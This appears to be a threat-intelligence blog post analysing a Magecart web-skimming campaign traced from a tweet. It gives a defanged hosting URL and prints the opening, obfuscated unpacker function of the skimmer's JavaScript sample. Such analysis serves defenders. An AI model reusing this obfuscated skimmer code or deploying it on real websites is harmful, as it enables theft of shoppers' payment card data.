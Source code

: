 ```yaml
---
title: "Magecart Skimmer Analysis: From One Tweet to a Campaign"
date: 2025-09-15
tags: ["magecart", "web-skimming", "threat-intel", "formjacking"]
author: "Himanshu Anand"
---
```


## Starting Point  

It all began with a tweet:  
[sdcyberresearch on X](https://x.com/sdcyberresearch/status/1967530667019010127)

![Tweet](/images/magecart-tweet.png)

This tweet hinted at a Magecart-style campaign involving malicious JavaScript injection to skim payment data.  

---

## Initial Sample  

The script was hosted at:  

`https://www.cc-analytics[.]com/app.js`  

The original code was heavily obfuscated:  

```javascript
(function() {
    function _0x1B3A1(_0x1B563, _0x1B3FB, _0x1B455, _0x1B509, _0x1B4AF, _0x1B5BD) {
        _0x1B4AF = function(_0x1B3A1) {
            return (_0x1B3A1 < _0x1B3FB ? '' : _0x1B4AF(parseInt(_0x1B3A1 / _0x1B3FB))) + ((_0x1B3A1 = _0x1B3A1 % _0x1B3FB) > 35 ? String.fromCharCode(_0x1B3A1 + 29) : _0x1B3A1.toString(36))
        }
        ;
        if (!''.replace(/^/, String)) {
            while (_0x1B455--) {
                _0x1B5BD[_0x1B4AF(_0x1B455)] = _0x1B509[_0x1B455] || _0x1B4AF(_0x1B455)
            }
            ;_0x1B509 = [function(_0x1B3A1) {
                return _0x1B5BD[_0x1B3A1]
            }
            ];
            _0x1B4AF = function() {
                return '\x5C\x77\x2B'
            }
            ;
            _0x1B455 = 1
        }
        ;while (_0x1B455--) {
            if (_0x1B509[_0x1B455]) {
                _0x1B563 = _0x1B563.replace(new RegExp('\x5C\x62' + _0x1B4AF(_0x1B455) + '\x5C\x62','\x67'), _0x1B509[_0x1B455])
            }
        }
        ;if (!_0x1B3A1) {
            return
        }
        ;return _0x1B563
    }
```